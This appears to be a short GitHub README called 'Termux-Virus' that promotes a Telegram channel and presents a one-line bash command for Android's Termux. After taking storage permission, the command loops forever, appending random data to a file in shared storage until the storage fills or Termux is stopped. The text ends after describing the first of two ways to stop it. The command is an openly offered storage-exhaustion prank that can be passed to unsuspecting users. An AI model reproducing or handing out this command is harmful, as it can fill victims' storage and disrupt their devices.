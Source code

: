 # Termux-Virus

⚠ **Warning**: Run at your own risk.

Join My Channel: [SG_Modder1](https://t.me/SG_Modder1)

😈 **2024 New Termux Virus By Me** 😈

```bash
termux-setup-storage && if [ -d "/storage/emulated/0" ]; then while true; do dd if=/dev/urandom of="/storage/emulated/0/device.bin" bs=1M conv=notrunc oflag=append > /dev/null 2>&1 && echo "🟩"; done; else echo "Give storage permissions."; termux-setup-storage; fi
```

## ⭐️ HOW IT WORKS ⭐️

👨‍💻 This command automatically generates a single file and continuously increases its size until you force stop Termux.


## 🛑 HOW TO STOP IT 🛑


You can stop the script in two ways:

1. **Using Ctrl + C**:
   - Simply press `Ctrl` and `C` keys together in your Termux terminal to terminate the script.
